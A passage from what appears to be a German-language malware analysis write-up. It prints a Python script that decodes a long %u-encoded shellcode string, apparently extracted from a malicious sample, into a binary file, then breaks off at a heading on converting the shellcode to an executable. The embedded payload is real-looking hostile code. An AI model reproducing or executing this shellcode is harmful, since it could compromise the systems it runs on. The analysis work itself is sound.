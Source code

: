 ```python
data = '''%uc933%ub966%u017c%u1beb%u565e%ufe8b%u66ac%u612d%u6600%ue0c1%u6604%ud08b%u2cac%u6661%uc203%u49aa%uea75%ue8c3%uffe0%uffff%u6666%u6c59%u6d5f%u6459%u6d5f%u6d66%u6466%u6766%u6866%u685d%u6665%u6160%u6262%u6161%u6161%u6161%u6a5f%u6f62%u6261%u6161%u6161%u7059%u6665%u6d60%u6567%u625b%u6164%u6161%u6161%u6161%u6c59%u6165%u6d61%u6c59%u6168%u6d62%u6e5b%u6c59%u6966%u6961%u6a59%u6e66%u6d5f%u6c59%u6e65%u6160%u6c59%u6e68%u6d60%u6266%u6c59%u6665%u6d5f%u6c59%u6168%u6d64%u6c59%u6568%u6761%u6968%u6461%u6160%u6766%u6c59%u6768%u6163%u6461%u6160%u6464%u6a5d%u6a65%u6265%u6e5b%u6461%u6665%u6d5f%u6464%u6c5e%u7061%u6f5c%u6162%u6b64%u675e%u6568%u6961%u625d%u6c5d%u6e61%u6461%u6b5e%u6165%u6c5f%u6260%u6c64%u7062%u6668%u675f%u6f66%u6c59%u6f66%u6563%u6461%u6e66%u6d5f%u6767%u6c59%u6d61%u6c65%u6c59%u6f66%u6d62%u6461%u6e66%u6d5f%u6c59%u6561%u6c59%u6461%u6665%u6d5f%u6c5b%u6a66%u635f%u665c%u6464%u615d%u6a59%u6665%u695f%u6a59%u6665%u655f%u6459%u6665%u655f%u6561%u6b67%u6161%u6c59%u6665%u655f%u6166%u6c59%u6e65%u6d60%u7060%u6266%u6162%u6a59%u6665%u6560%u6459%u6e68%u6560%u7060%u6568%u6e67%u6259%u6e68%u6560%u6161%u6163%u6161%u6161%u6e68%u6361%u6c5f%u6367%u6b67%u6165%u6967%u6161%u6162%u6161%u6161%u6c59%u6666%u6560%u6366%u6b67%u6161%u6c59%u6665%u6d60%u7060%u6166%u6564%u6a59%u6665%u6960%u6b67%u6161%u6b67%u6161%u6b67%u6161%u6c59%u6e65%u655f%u6266%u6c59%u6666%u6d60%u7060%u6366%u6164%u6b67%u6161%u6e59%u6665%u695f%u6166%u6c59%u6e65%u6560%u6266%u6c59%u6666%u6960%u6366%u6c59%u6665%u655f%u6166%u6c59%u6e65%u6d60%u7060%u6266%u6d63%u6c59%u6666%u6960%u6461%u6666%u6560%u6259%u6b68%u6d60%u6667%u7067%u6767%u6b61%u6668%u6361%u6c5f%u6163%u6967%u6161%u6159%u6161%u6161%u6c59%u6665%u6560%u6166%u6c59%u6e65%u6960%u6266%u6c59%u6666%u6d60%u7060%u6366%u6964%u695c%u6261%u6161%u6161%u6161%u6659%u615d%u7061%u6659%u6e67%u7060%u7060%u7060%u6c59%u6668%u6960%u6464%u6a5d%u6265%u6259%u6d64%u6f61%u6667%u7067%u6767%u6b61%u6668%u6760%u6459%u625d%u6561%u6461%u6260%u7060%u6668%u6d60%u7060%u6668%u655f%u7060%u675e%u695f%u6e5e%u6f60%u7060%u7060%u6c60%u685a%u6e60%u7061%u665b%u6862%u6161%u6d68%u6368%u6f60%u645c%u6762%u6f68%u695e%u635f%u6468%u6e5b%u6c5a%u6e68%u705e%u6768%u6e67%u615c%u6665%u6964%u6363%u6d5b%u685f%u6464%u6b5d%u6b59%u6c66%u6f59%u6f65%u6f61%u6d5f%u6b60%u685a%u6361%u6d65%u6760%u6b5f%u6b5c%u6d66%u6762%u6667%u6b60%u6162%u6d5b%u6961%u6b5e%u6768%u6566%u6b5d%u705b%u625a%u6d5b%u6464%u6761%u6461%u695a%u6f60%u6b59%u6f61%u7062%u6a68%u6b61%u695f'''

shellcode = b""

# Extract %uXXXX pairs using regex
matches = re.findall(r"%u([0-9a-fA-F]{4})", data)

for match in matches:
    # Convert to bytes in little-endian format
    bytes_le = bytes.fromhex(match)
    shellcode += bytes([bytes_le[1], bytes_le[0]])

# Write the decoded shellcode to a binary file
with open("shellcode.bin", "wb") as f:
    f.write(shellcode)
```

Nach dem Ausführen dieses Skripts mit:

```bash
python extract_shellcode.py
```

=> haben wir die Datei `shellcode.bin` erhalten.


## 8. Umwandlung des Shellcodes in eine ausführbare Datei
